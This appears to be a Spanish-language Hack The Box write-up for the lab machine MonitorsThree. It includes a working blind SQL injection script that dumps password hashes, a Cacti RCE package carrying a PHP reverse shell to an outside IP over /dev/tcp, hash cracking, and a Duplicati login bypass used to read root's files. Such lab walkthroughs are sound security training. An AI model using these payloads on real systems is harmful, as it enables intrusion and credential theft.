

+++
author = "Andrés Del Cerro"
title = "Hack The Box: MonitorsThree Writeup | Medium"
date = "2025-03-19"
description = ""
tags = [
    "HackTheBox",
    "MonitorsThree",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "SQL Injection",
    "Cracking Hashes",
    "Python Scripting",
    "Scripting",
    "Abusing Cacti",
    "Information Leakage",
    "User Pivoting",
    "Port Forwarding",
    "Authentication Bypass",
    "Abusing Duplicati"
]

+++

# Hack The Box: MonitorsThree Writeup

Welcome to my detailed writeup of the medium difficulty machine **"MonitorsThree"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
rustscan -a 10.129.231.137 --ulimit 5000 -g
10.129.231.137 -> [22,80]
```

```shell
nmap -p22,80 -sCV 10.129.231.137 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 21:45 CEST
Nmap scan report for 10.129.231.137
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.89 seconds
```
# UDP Enumeration

```shell
sudo nmap --top-ports 1500 -sU 10.129.231.137 --min-rate 5000 -n -Pn -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 21:45 CEST
Nmap scan report for 10.129.231.137
Host is up (0.037s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
3052/udp  closed apc-3052
16947/udp closed unknown
18830/udp closed unknown
21524/udp closed unknown
27538/udp closed unknown
49396/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```

Del escaneo inicial encontramos el dominio `monitorsthree.htb` así que lo añadimos al `/etc/hosts` y ya que no hay otro punto de entrada, vamos a enumerar el servicio web.

# HTTP Enumeration

`whatweb` no nos reporta nada interesante.
```shell
whatweb http://monitorsthree.htb
http://monitorsthree.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[sales@monitorsthree.htb], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.231.137], JQuery, Script, Title[MonitorsThree - Networking Solutions], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

Esta es la pinta del servicio web.


El único recurso interesante que encontramos es este panel de autenticación en `/login.php`

Y también el recurso `/forgot_password.php` que nos sirve para enumerar usuarios ya que nos da un error si el usuario no existe pero una respuesta válida si existe.


## SQL Injection
Si introducimos una `'` vemos que es vulnerable a inyección SQL.


Podemos imaginar que antes de hacer un `INSERT` para insertar un token para recuperar la contraseña, se hace un `SELECT` para ver si este usuario existe, así que podemos descubrir de esta manera el número de columnas.


Por detrás se tiene 9 columnas en la tabla de usuarios quiero pensar.

Después de estar con `sqlmap` un rato, iba demasiado lento, así que voy a scriptear el SQLi.

Si probamos con esta query.
`' or username=(select username from users where username like 'z%')-- -`

Nos devuelve un mensaje de error, pero si probamos con 
`' or username=(select username from users where username like 'a%')-- -`

Nos devuelve un estado válido.

Como ya sabía que hay un usuario `admin` directamente fui a dumpear su hash con este script (comprobé previamente que existía el campo `password`).

```python
import requests
import string

URL = "http://monitorsthree.htb/forgot_password.php"

def do_request(payload):
    sqli_payload = "' or username=(select username from users where password like '<REPLACE>%')-- -"
    r = requests.post(URL, data={'username': sqli_payload.replace("<REPLACE>", payload)})
    if 'Successfully' in r.text:  # Ajusta esto según la respuesta que indique un éxito
        return True
    return False

def sqli():
    characters = string.ascii_uppercase + string.ascii_lowercase + string.digits
    found = ""
    
    while True:
        for char in characters:
            payload = found + char
            print(f"Trying payload: {payload}")  # Opcional: para ver qué se está probando
            if do_request(payload):
                found += char
                print(f"Found valid sequence: {found}")
                break
        else:
            # Si no encontramos ningún carácter válido, hemos terminado
            print(f"Final sequence found: {found}")
            break

if __name__ == "__main__":
    sqli()
```

```shell
python3 sqli.py
....
Trying payload: C585D01F2EB3E6E1073E92023088A3DD3
Trying payload: C585D01F2EB3E6E1073E92023088A3DD4
Trying payload: C585D01F2EB3E6E1073E92023088A3DD5
Trying payload: C585D01F2EB3E6E1073E92023088A3DD6
Trying payload: C585D01F2EB3E6E1073E92023088A3DD7
Trying payload: C585D01F2EB3E6E1073E92023088A3DD8
Trying payload: C585D01F2EB3E6E1073E92023088A3DD9
Final sequence found: C585D01F2EB3E6E1073E92023088A3DD
```

Encontramos este hash que parece MD5
`c585d01f2eb3e6e1073e92023088a3dd`

No pude crackear este hash, así que ahora me interesa saber cuantos usuarios hay en el sistema.


Vemos que hay 4 usuarios en el sistema.

Modificando el script detectamos que hay un usuario `dthompson`
```shell
Trying payload: dthompsonz
Final sequence found: dthompson
```

Podemos ir jugando con la variable `characters` en el script y eventualmente descubrimos los usuarios
```shell
Trying payload: jandersonz
Final sequence found: janderson
```

```shell
Trying payload: mwatsont
Final sequence found: mwatson
```

La lista de usuarios es:
- admin
- dthompson
- janderson
- mwatson

Podemos modificar el payload del script para ir seleccionando el usuario al que queremos dumpear el hash:
```python
import requests
import string

URL = "http://monitorsthree.htb/forgot_password.php"

def do_request(payload):
    sqli_payload = "' or username=(select username from users where password like '<REPLACE>%' and username = 'dthompson')-- -"
    r = requests.post(URL, data={'username': sqli_payload.replace("<REPLACE>", payload)})
    if 'Successfully' in r.text:  # Ajusta esto según la respuesta que indique un éxito
        return True
    return False

def sqli():
    characters = string.ascii_lowercase + string.digits
    #characters = "bcefghikmnlopqrsuvwxyzadjABCDEFGHIJKMNLOPQRSTUVWXYZ1234567890"
    found = ""
    
    while True:
        for char in characters:
            payload = found + char
            print(f"Trying payload: {payload}")  # Opcional: para ver qué se está probando
            if do_request(payload):
                found += char
                print(f"Found valid sequence: {found}")
                break
        else:
            # Si no encontramos ningún carácter válido, hemos terminado
            print(f"Final sequence found: {found}")
            break

if __name__ == "__main__":
    sqli()
```

admin -> c585d01f2eb3e6e1073e92023088a3dd
dthompson -> 633b683cc128fe244b00f176c8a950f5
janderson -> 1e68b6eb86b45f6d92f8f292428f77ac
mwatson -> c585d01f2eb3e6e1073e92023088a3dd

Vemos que `admin` y `mwatson` tienen el mismo hash MD5.

Utilizando [hashes.com](https://hashes.com) no encontramos ninguna credencial para estos hashes.


Quizás se esté utilizando un `salt`

## Enumerating (again)
Fuzzeando encontré un recurso `/admin` el cual necesitaba estar con una sesión iniciada.

Fuzzeando por subdominios encontré un subdominio `cacti`

```shell
wfuzz --hh=13556 -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.monitorsthree.htb' http://monitorsthree.htb

....
000000246:   302        0 L      0 W        0 Ch        "cacti"
```

Vemos una instancia de cacti.


En este momento me empecé a volver loco y me di cuenta de un fallo que había cometido...

En el script inicial, el primer hash no es del usuario `admin` porque en el payload se me olvidó especificar la clausula `WHERE` entonces cogió el primer hash que encontró basándose en los caracteres ordenados por orden alfabético.

```python
sqli_payload = "' or username=(select username from users where password like '<REPLACE>%')-- -"
```

Debería haber sido 
```python
sqli_payload = "' or username=(select username from users where password like '<REPLACE>%' and username = 'admin')-- -"
```

```shell
Trying payload: 31a181c8372e3afc59dab863430610e89
Final sequence found: 31a181c8372e3afc59dab863430610e8
```

`31a181c8372e3afc59dab863430610e8` es el hash de admin.

¡Ahora tenemos unas credenciales válidas!


¡Y podemos ingresar al Cacti!


## RCE in Cacti -> Foothold
Buscando por la versión de Cacti (1.2.26) encontramos que [existe una vulnerabilidad de tipo Remote Command Execution](https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88)

Si nos copiamos el PoC y lo ejecutamos con PHP nos genera un archivo `test.xml.gz`


Ahora nos dirigimos a `Import/Export` -> `Import Packages`

Subimos este archivo


Y nos dirigimos a la ruta http://cacti.monitorsthree.htb/cacti/resource/test.php


Ahora solo falta modificar el PoC para mandarnos una revshell.

Vamos a probar a ejecutar un comando a nivel de sistema.


Repetimos el proceso..


Modificamos otra vez la variable pero ahora con el siguiente código.
```php
$filedata = "<?php echo `bash -c 'bash -i >& /dev/tcp/10.10.14.125/443 0>&1'`; ?>"
```

Y si nos ponemos en escucha con `pwncat-cs` por el puerto 443 y repetimos el proceso ganamos acceso al sistema.


# User Pivoting
Vemos que existe un usuario `marcus` en el sistema.
```shell
(remote) www-data@monitorsthree:/var/www/html/app/admin$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
marcus:x:1000:1000:Marcus:/home/marcus:/bin/bash
```

Leyendo la documentación de [Cacti](https://files.cacti.net/docs/html/unix_configure_cacti.html) damos con el archivo que contiene las credenciales para la base de datos, `include/config.php`

```shell
cat config.php | grep database
 * Make sure these values reflect your actual database/host/user/password
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
#$rdatabase_type     = 'mysql';
#$rdatabase_default  = 'cacti';
#$rdatabase_hostname = 'localhost';
#$rdatabase_username = 'cactiuser';
#$rdatabase_password = 'cactiuser';
#$rdatabase_port     = '3306';
#$rdatabase_retries  = 5;
#$rdatabase_ssl      = false;
#$rdatabase_ssl_key  = '';
#$rdatabase_ssl_cert = '';
#$rdatabase_ssl_ca   = '';
 * Save sessions to a database for load balancing
 * are defined in lib/database.php
 * in the database.  For valid values, see CACTI_LANGUAGE_HANDLER
```

Vemos que `marcus` tiene una cuenta en la instancia de Cacti.
```shell
MariaDB [cacti]> select * from user_auth where username='marcus';
+----+----------+--------------------------------------------------------------+-------+-----------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+-----------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus    | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+-----------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
```

Vemos un hash que probablemente sea `bcrypt`, podemos probar a crackearlo con `hashcat` ya que este hash no está contemplado en https://hashes.com


```shell
.\hashcat.exe -a 0 -m 3200 .\hash.txt .\rockyou.txt
```

Y conseguimos crackearla.

`$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910`


Y podemos migrar al usuario `marcus`

```shell
(remote) www-data@monitorsthree:/var/www/html/cacti/include$ su marcus
Password: 
marcus@monitorsthree:/var/www/html/cacti/include$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
```

Podemos leer la flag de usuario
```shell
marcus@monitorsthree:~$ cat user.txt 
45fbfd0ff1402...
```

# Privilege Escalation
Enumerando la máquina no encontré nada excepto un puerto que estaba en escucha que no se vería exteriormente.

```shell
marcus@monitorsthree:~$ netstat -tulnp
....
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -
```

También encontré el puerto `33233` pero primero vamos a enumerar el puerto `8200`

Podemos hacer Port Forwarding con SSH ya que tenemos acceso (he copiado mi clave pública en `/home/marcus/.ssh/authorized_keys` ya que la autenticación solo es posible mediante clave publica-privada)

```shell
ssh -L 8200:127.0.0.1:8200 marcus@monitorsthree.htb
Last login: Sun Aug 25 19:42:21 2024 from 10.10.14.125
marcus@monitorsthree:~$
```

Podemos comprobar que ahora tenemos este puerto abierto en nuestra máquina local.
```shell
nmap -p8200 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 23:44 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00017s latency).

PORT     STATE SERVICE
8200/tcp open  trivnet1

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

Y vemos una instancia de Duplicati.


Buscando por vulnerabilidades nos encontramos [el siguiente post](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) donde podemos construir la contraseña necesaria para iniciar sesión.

Necesitamos saber donde está la instancia de Duplicati, la encontramos en `/opt/duplicati`.
```shell
marcus@monitorsthree:/opt$ ls
backups  containerd  docker-compose.yml  duplicati
```

Nos descargamos el archivo `/opt/duplicati/config/Duplicati-server.sqlite`
```shell
(remote) marcus@monitorsthree:/opt/duplicati/config$ ls
control_dir_v2  CTADPNHLTC.sqlite  Duplicati-server.sqlite
(remote) marcus@monitorsthree:/opt/duplicati/config$ 
(remote) marcus@monitorsthree:/opt/duplicati/config$ 
(local) pwncat$ download Duplicati-server.sqlite
Duplicati-server.sqlite ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 90.1/90.1 KB • ? • 0:00:00
[23:51:20] downloaded 90.11KiB in 0.24 seconds                              download.py:71
(local) pwncat$ 
```

Lo abrimos con `sqlite3` y nos debemos quedar con este información de la tabla `Options`
```text
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
```

passphrase -> Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
passphrase-salt -> xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=

Ambas están codificadas en base64

Ahora siguiendo el post, podemos intentar autenticarnos al Duplicati con cualquier contraseña y con Burp debemos capturar la respuesta, y vemos que el `salt` coincide.


Ahora con el passphrase que hemos encontrado en la base de datos, nos dirigimos a [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)To_Hex('None',0)&input=V2I2ZTg1NUwzc045TFRhQ3V3UFh1YXV0c3dUSVFiZWttTUFyN0JySzJIbz0)


El truco es generar un nonce válido gracias a que tenemos la passphrase del Duplicati para poder iniciar sesión.

Después de un rato prueba y error me di cuenta de que en Firefox por alguna razón al interceptar la respuesta donde recibimos el nonce no establecía las cookies correctamente.

## Repetimos el proceso
Esta parte la realicé con el navegador que tiene Burpsuite

Ahora teniendo el valor Base64 decodeado + hexadecimal de la passphrase:

```shell
59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a
```

Podemos volver a repetir el proceso para hacerlo con el navegador de Burpsuite.

Intentamos iniciar sesión con una contraseña cualquiera e interceptamos dicha respuesta de esa petición.


Ahora nos quedamos con el valor del `Nonce`


Ahora en la consola del navegador, hacemos el proceso de encriptación que se especifica en el post anteriormente mencionado

```javascript
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('7JHYPh/K0be0EcHa/NP4RYl7vKZMk8/1sp4/QlSnIKA=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64); 
```


Hemos generado un `nonce` válido para poder iniciar sesión: `ZazLw2rr2GQpQZXvgyjrfq3EeoBFVGVRMIV0/L4QPXU=`

Ahora en Burpsuite, le damos a `Forward`

Y en esta petición simplemente reemplazamos el valor de `password` por el nonce, después debemos URL Encodear este valor seleccionando y pulsando `Ctrl + U`


Y si le damos a `Forward`


Detectamos que esta instancia probablemente esté en un contenedor, pero en la ruta `/source` esta montada la raíz del sistema de la máquina víctima y además tenemos permisos para acceder a cualquier carpeta.


Ahora vamos a crear un backup, le damos click a `Add backup -> Configure a new Backup -> Escribimos un nombre -> Encryption -> None -> Next`

Después seleccionamos donde vamos a guardar el backup, creamos un directorio `/tmp/root` y seleccionamos este directorio.


Ahora de `Source data` seleccionamos el directorio personal de `root` que es `/source/root`


Le damos a `Run now`


Ahora creamos un directorio en `/tmp/root_output` le damos a `Restore` y seleccionamos todos los archivos -> Continue


`Pick location -> Folder path -> /source/tmp/root_output` (La carpeta que hemos creado)


Y si le damos a continuar vemos lo siguiente.


Ahora si nos dirigimos a `/tmp/root_output` vemos que se ha hecho correctamente el backup y podemos ver la flag de `root`.

```shell
marcus@monitorsthree:/tmp/root_output$ ls -la
total 40
drwxr-xr-x  7 marcus marcus 4096 Aug 25 20:52 .
drwxrwxrwt 16 root   root   4096 Aug 25 20:51 ..
lrwxrwxrwx  1 root   root      9 Aug 25 20:52 .bash_history -> /dev/null
-rw-r--r--  1 root   root   3106 Oct 15  2021 .bashrc
drwxr-xr-x  3 root   root   4096 Aug 20 14:27 .cache
drwxr-xr-x  3 root   root   4096 Aug 18 08:21 .config
drwxr-xr-x  3 root   root   4096 Aug 16 11:33 .local
lrwxrwxrwx  1 root   root      9 Aug 25 20:52 .mysql_history -> /dev/null
-rw-r--r--  1 root   root    161 Jul  9  2019 .profile
drwxr-xr-x  2 root   root   4096 May 18 21:39 .ssh
-rw-r--r--  1 root   root     33 Aug 25 17:42 root.txt
drwxr-xr-x  3 root   root   4096 Aug 25 17:42 scripts
marcus@monitorsthree:/tmp/root_output$ cat root.txt 
f88e3e0d17a2642...
```

¡Y ya estaría!

Happy Hacking! 🚀